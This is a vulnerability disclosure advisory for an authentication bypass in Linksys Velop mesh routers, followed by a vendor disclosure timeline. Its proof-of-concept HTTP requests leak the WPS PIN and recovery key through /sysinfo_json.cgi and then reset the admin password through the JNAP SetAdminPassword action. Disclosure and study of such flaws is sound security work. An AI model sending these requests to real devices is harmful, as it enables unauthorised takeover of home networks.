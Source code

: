 ```yaml
---
published: true
---
```

[TOC]

## Linksys Velop Authentication Bypass


### Affected Software
Firmware version:	Before 1.1.8.192419
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system is the same.
### Vulnerability Details
During our analysis, we found a critical bug in its firmware and this vulnerability may allow an unauthenticated user get administrator privilege. The problem is caused by the API of **/sysinfo_json.cgi**, requesting this url will leak sensitive information and may lead to authentication bypass.
#### PoC
We could get some useful information from the PoC below:
~~~http
GET /sysinfo_json.cgi HTTP/1.1
Host: 10.158.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
~~~

~~~http
HTTP/1.1 200 OK
Connection: close
CONTENT-LANGUAGE: en
Date: Thu, 11 Oct 2012 11:09:15 GMT
Server: lighttpd/1.4.39
Content-Length: 94710

siSections="MfgData,BootData,Syscfg,Sysevent,Messages,Dmesg,Ps,MemoryInfo,CpuInfo,WifiBasicInfo,WifiRadioInfo,WifiClientInfo,WifiPoorClientInfo,WifiLegacyClientInfo,WifiAllAPInfo,WifiSameAPInfo,WifiAllCAInfo,WifiMyCAInfo,IPInfo,PingInfo,Conntrack,ConntrackTotals,ConntrackAvg,Thrulay";
var MfgData = {
 "title": "Manufacturer Data",
 "description": "This is used to manufacturer unit and in SKU API",
 "timestamp": "16:01:02.12/31/69",
 "data": [
{
.......
 "wps_pin": "wps_device_pin = 58163597",
.......
"device_recovery_key": "84667",
.......
 }
 ]
};
......
~~~
The most important value we can get is WPS PIN and Device Recovery Key. For the WPS PIN, we can use it to connect to the wifi even if the wifi password is changed when wps is enabled. Recovery key can be used to reset the admin password, we may construct the following request to change the admin password:
~~~http
POST /JNAP/ HTTP/1.1
Host: 192.168.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
Content-Length: 48
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
X-JNAP-Action: http://linksys.com/jnap/nodes/setup/SetAdminPassword

{"resetCode":"84667","adminPassword":"test1234"}
~~~
### Timeline
We reported the bug to the vendor in Feb,2019 and they finally released a patch in August:

~~~text
25 Feb 2019 03:07:55 UTC: We submitted the problem to vendor
26 Feb 2019 20:55:22 UTC: The vendor acknowledged the problem and reproduced it.
31 May 2019 12:39:01 UTC: We asked if there is any updates. No response
06 Jun 2019 03:42:03 UTC: We asked if there is any updates. 
06 Jun 2019 04:41:23 UTC: The vendor reply as: Apologies for the delay in response; the engineering team informs me that a firmware release for Velop will be released later this month. Would you like a preview of this firmware to confirm our fix?
06 Jun 2019 08:28:51 UTC: We replied : No.
25 Jul 2019 00:44:31 UTC: We asked for any updates. No response.
26 Jul 2019 18:22:12 UTC: The vendor replied: We are starting a limited rollout of the release starting tonight and if all goes well, the full release will be opened up in the first week of August. Thank you!
21 Aug 2019 03:38:42 UTC: We asked if there is any updates
23 Aug 2019 21:01:30 UTC: The vendor replied as :We have finally released a fix to address this issue: https://www.linksys.com/us/support-article?articleNum=207568. We have not applied for a CVE and do not have any plans to do so. Thank you!
26 Aug 2019 00:38:08 UTC: We asked we will apply a CVE for this issue
27 Aug 2019 17:23:51 UTC:The vendor replied as :we have no objections if you'd like to file for a CVE.
~~~